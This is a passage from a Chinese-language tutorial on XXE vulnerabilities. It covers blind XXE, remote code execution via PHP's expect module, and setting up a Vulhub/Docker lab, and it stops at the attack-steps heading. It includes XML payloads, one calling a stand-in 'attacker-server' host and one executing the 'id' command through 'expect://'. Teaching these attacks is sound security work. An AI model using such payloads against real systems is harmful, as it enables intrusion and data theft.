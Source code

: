 ### 2.3 盲XXE

在某些情况下，应用程序不会直接返回外部实体的内容，但攻击者仍然可以通过盲XXE技术检测漏洞。例如，通过将外部实体指向攻击者控制的服务器，观察是否有请求到达。

示例：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://attacker-server/">
]>
<foo>&xxe;</foo>
```

### 2.4 远程代码执行

在某些情况下，XXE漏洞可能导致远程代码执行。例如，当应用程序使用PHP的`expect`模块时，攻击者可以通过外部实体执行系统命令。

示例：

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "expect://id">
]>
<foo>&xxe;</foo>
```

## 3. 攻击步骤与实验环境搭建

### 3.1 实验环境搭建

为了模拟XXE漏洞，可以使用以下工具和环境：

- **Docker**：快速搭建实验环境。
- **Vulhub**：包含多种漏洞环境的Docker镜像集合。

#### 3.1.1 安装Docker

```bash
sudo apt-get update
sudo apt-get install docker.io
```

#### 3.1.2 下载Vulhub

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/xxe
```

#### 3.1.3 启动环境

```bash
docker-compose up -d
```

### 3.2 攻击步骤
